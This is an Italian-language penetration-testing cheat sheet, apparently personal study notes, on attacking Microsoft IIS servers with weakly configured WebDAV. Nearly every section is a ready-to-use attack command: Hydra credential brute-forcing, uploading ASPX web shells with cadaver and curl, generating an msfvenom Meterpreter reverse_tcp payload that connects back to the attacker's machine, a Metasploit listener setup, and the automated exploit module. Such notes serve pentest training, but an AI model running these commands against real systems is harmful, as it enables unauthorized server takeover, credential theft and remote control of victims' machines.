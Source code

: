 # Microsoft IIS WebDAV – Introduzione e Exploit
**WebDAV (Web Distributed Authoring and Versioning)** è un protocollo composto da un set di estensioni HTTP che consentono agli utenti di modificare e gestire in modo collaborativo i file su Microsoft IIS. <br>
Microsoft IIS è un server web proprietario sviluppato da Microsoft, in grado di ospitare applicazioni web e siti web, in modo simile ad altri server come Apache o Nginx <br>
WebDAV espone in genere la stessa porta del sito (80/443) e supporta metodi aggiuntivi come `PROPFIND`, `MKCOL`, `PUT`. <br>

Una configurazione debole (per‑mancanza di ACL o controllo sul metodo **PUT**) consente a un attaccante di **caricare ed eseguire file arbitrari**, ottenendo RCE.

---

## 1 – Rilevazione del servizio WebDAV

`nmap -p80,443 --script=http-enum <IP>` ⟶ lo script individua directory WebDAV note. <br>
Dopo aver confermato la presenza di WebDAV, possiamo testare il suo comportamento con: <br>
`davtest -url http://<IP>/webdav` ⟶ sonda metodi (PUT, MKCOL, PROPFIND) e verifica upload se non é protetta da password. <br>
`curl -X OPTIONS http://<IP>/webdav -i` ⟶ elenca i metodi HTTP; se `PUT` è presente, è vulnerabile. <br>

---

## 2 – Brute‑force credenziali (opzionale)

Una volta confermata la vulnerabilità, possiamo tentare di scoprire le credenziali di accesso usando Hydra: <br>
`hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/common_passwords.txt -s 80 -f -u <IP> http-get /webdav` <br>

* `-L` / `-P` puntano ai file utenti / password. <br>
* `-s 80` specifica la porta. <br>
* `-f` interrompe alla prima coppia valida. <br>
* `-u` mantiene la stessa connessione. <br>

Se il server usa HTTPS, sostituisci `http-get` con `https-get` e porta 443: <br>
Se invece vuoi effettuare un login standard basta mettere `/` al posto di `/webdav` per autenticarti
> ovviamente puoi mettere qualsiasi altra directory che richiede autenticazione dopo `/`

---

## 3 – Verifica upload con **davtest**

dopo aver scoperto le credenziali di accesso, analizziamoi il comportamento usando davtest: <br>
`davtest -auth <user>:<pass> -url http://<IP>/webdav` ⟶ stessa prova ma autenticata. <br>

Se `PUT` va a buon fine, verrà indicato “SUCCESS” per l’estensione caricata.

---

## 4 – Upload di una Web‑Shell con **cadaver**

`cadaver http://<IP>/webdav` ⟶ client WebDAV interattivo. <br>
`put C:\\webshell\\cmd.aspx` ⟶ carica la web‑shell ASPX. <br>

Tutte le web shells disponibili su kali sono visualizzabili al path 
`/usr/share/webshells`

Dopo aver caricato una webshell, ricaricando la pagina del browser dov’era aperta la pagina di WebDAV, possiamo visualizzare la shell caricata quindi, cliccando su di essa per eseguirla, potremmo avere una schermata con la possibilità di inserire dei comandi

---

## 5 – Upload via curl e put
possiamo anche caricare la shell usando curl:

`curl -T shell.aspx http://<user>:<pass>@<IP>/webdav/shell.aspx` ⟶ carica shell ASPX. <br>

e tramite il metodo put: <br>
`put </usr/share/webshells/webShellDaUsare>`

---

## 6 – Generazione Payload con **msfvenom**
é possibile generare una shell usando msfvenom: 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KaliIP> LPORT=<Port> -f aspx > shell.aspx` <br>

Carica `shell.aspx` via `cadaver` o `curl`; una volta richiamato, avrai la sessione Meterpreter.

---

## 7 – Listener Metasploit

`use multi/handler` ⟶ modulo listener generico. <br>
`set payload windows/meterpreter/reverse_tcp` ⟶ definisce il payload. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina Kali. <br>
`set LPORT <Port>` ⟶ porta configurata nel payload. <br>
`run` ⟶ avvia il listener in attesa della connessione. <br>

e successivamente eseguiamo la shell caricata sul target con `cadaver` o `curl`

Queso processo é totalmente automatizzabile usando il modulo: <br>
`exploit/windows/iis/iis_webdav_upload_asp`

---
